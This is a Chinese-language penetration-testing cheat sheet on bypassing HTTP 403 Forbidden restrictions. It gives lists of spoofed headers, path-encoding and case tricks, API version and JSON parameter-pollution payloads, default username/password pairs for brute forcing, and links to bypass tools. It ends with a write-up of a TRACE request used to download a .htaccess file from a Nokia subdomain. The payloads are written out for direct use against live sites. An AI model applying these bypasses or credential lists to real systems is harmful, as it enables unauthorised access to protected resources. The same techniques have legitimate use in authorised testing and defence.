 ## 403页面绕过技巧(先分享技巧和工具，后面分享实战报告)
### 1.什么是403？
作为普通用户，我们没有访问特定网页的权限（只能管理员等访问），所以当我们尝试访问该类型的网站时，它会给我们返回 403 forbidden。

### 什么是403绕过？
绕过 403 Forbidden Error 表示客户端能够与服务器通信，但服务器不允许客户端访问所请求的内容。
### 2.HTTP 请求方法fuzz
尝试使用不同的请求方法来访问：` GET, HEAD, POST, PUT, DELETE, CONNECT, OPTIONS, TRACE, PATCH, INVENTED, HACK `


### 3.HTTP 标头fuzz
```
X-Originating-IP: 127.0.0.1
X-Forwarded-For: 127.0.0.1
X-Forwarded: 127.0.0.1
Forwarded-For: 127.0.0.1
X-Remote-IP: 127.0.0.1
X-Remote-Addr: 127.0.0.1
X-ProxyUser-Ip: 127.0.0.1
X-Original-URL: 127.0.0.1
Client-IP: 127.0.0.1
True-Client-IP: 127.0.0.1
Cluster-Client-IP: 127.0.0.1
X-ProxyUser-Ip: 127.0.0.1
Host: localhost
```
如果路径受到保护，您可以尝试使用这些其他标头绕过路径保护：
```
X-Original-URL: /admin/console
X-Rewrite-URL: /admin/console
```
### 4.路径fuzz
1. 尝试使用 /%2e/path _（如果访问被代理阻止，这可能会绕过保护），也可以试试_** /%252e**/path（双 URL 编码）
2. 尝试 Unicode 绕过：/%ef%bc%8fpath
#### 其他路径绕过：
```
site.com/secret –> HTTP 403 Forbidden
site.com/SECRET –> HTTP 200 OK
site.com/secret/ –> HTTP 200 OK
site.com/secret/. –> HTTP 200 OK
site.com//secret// –> HTTP 200 OK
site.com/./secret/.. –> HTTP 200 OK
site.com/;/secret –> HTTP 200 OK
site.com/.;/secret –> HTTP 200 OK
site.com//;//secret –> HTTP 200 OK
site.com/secret.json –> HTTP 200 OK 
```
其他api绕过
```
/v3/users_data/1234 --> 403 Forbidden
/v1/users_data/1234 --> 200 OK
{“id”:111} --> 401 Unauthriozied
{“id”:[111]} --> 200 OK
{“id”:111} --> 401 Unauthriozied
{“id”:{“id”:111}} --> 200 OK
{"user_id":"<legit_id>","user_id":"<victims_id>"} (JSON 参数污染)
user_id=ATTACKER_ID&user_id=VICTIM_ID (参数污染)
```
## 更换协议版本
如果使用 HTTP/1.1，请尝试使用 1.0，或者测试看它是否支持 2.0。
## 暴力破解
```
admin    admin
admin    password
admin    1234
admin    admin1234
admin    123456
root     toor
test     test
guest    guest
```
## 自动化工具使用
1. https://github.com/lobuhi/byp4xx
2. https://github.com/iamj0ker/bypass-403
3. https://github.com/gotr00t0day/forbiddenpass
4. Burp扩展：https://portswigger.net/bappstore/444407b96d9c4de0adb7aed89e826122



## 实战报告分析

首先我们的目标是一个类似`https://subs.nokia.com`的网站

![image](https://user-images.githubusercontent.com/98140109/233623291-19895314-be4e-4ac9-9d50-3172e76e0923.png)

首先，我检查网站是否包含隐藏目录，所以我尝试 `https://subdomain.nokia.com/.htaccess` ，它返回了 403 错误而不是 404 ，这意味着 .htaccess 文件存在于该子域中。

https://subs.nokia.com/.htaccess 

![image](https://user-images.githubusercontent.com/98140109/233623508-6263cf67-b78c-4d0d-8b80-78c14be32bcc.png)

### 绕过

接下来怎么绕过，包括上面讲解的方法和工具都可以尝试
尝试更改请求方法绕过
如GET → POST、GET → TRACE等。
Burp-Suite抓包并拦截，尝试post绕过失败，trace绕过直接成功

![image](https://user-images.githubusercontent.com/98140109/233624029-a1f2c3f9-9489-4438-bc53-d706b6aee139.png)

成功绕过，.htaccess 文件弹出并给我下载权限。

![image](https://user-images.githubusercontent.com/98140109/233624130-c13295f4-bcae-49bd-8c8f-b985152191dd.png)

这就是全部


